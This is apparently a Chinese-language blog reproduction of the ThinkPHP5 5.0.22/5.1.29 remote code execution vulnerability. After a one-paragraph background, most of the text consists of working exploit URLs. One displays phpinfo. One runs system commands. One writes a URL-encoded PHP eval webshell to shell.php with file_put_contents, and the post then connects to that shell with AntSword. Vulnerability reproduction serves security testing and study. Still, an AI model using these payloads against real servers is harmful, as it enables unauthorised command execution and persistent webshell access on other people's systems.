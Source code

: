 ```yaml
---
title: ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞
date: 2020-06-13 20:59:28
categories: 漏洞复现
tags: ThinkPHP
---
```


####  背景

ThinkPHP是一款运用极广的PHP开发框架。其版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

<!--more-->

#### 复现过程

##### phpinfo信息

```http
http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```



![](http://qn.laohuan.xin/2020-06-13_17-32-26.png)

##### 远程命令执行

```http
http://ip:端口/index.php?s=index/think\app/invokefunction&function=call*_user_*func_array&vars[0]=system&vars[1][]=whoami
```



![](http://qn.laohuan.xin/2020-06-13_17-35-46.png)

##### 写shell

1.先将一句话马进行url编码

```
%3c%3fphp+eval(%24_POST%5b123%5d)+%3f%3e
```

2.POC

```
http://IP:端口/index.php?s=/index/\think\app/invokefunction&function=call*_user_*func*_array&vars[0]=file_*put_contents&vars[1][]=shell.php&vars[1][]=%3c%3fphp+eval(%24_POST%5b123%5d)+%3f%3e
```



![](http://qn.laohuan.xin/2020-06-13_20-50-06.png)

3.蚁剑连接

`http://IP:端口/shell.php`

![](http://qn.laohuan.xin/2020-06-13_20-54-13.png)

#### 参考链接

<http://www.cnblogs.com/bmjoker/p/10110868.html/>
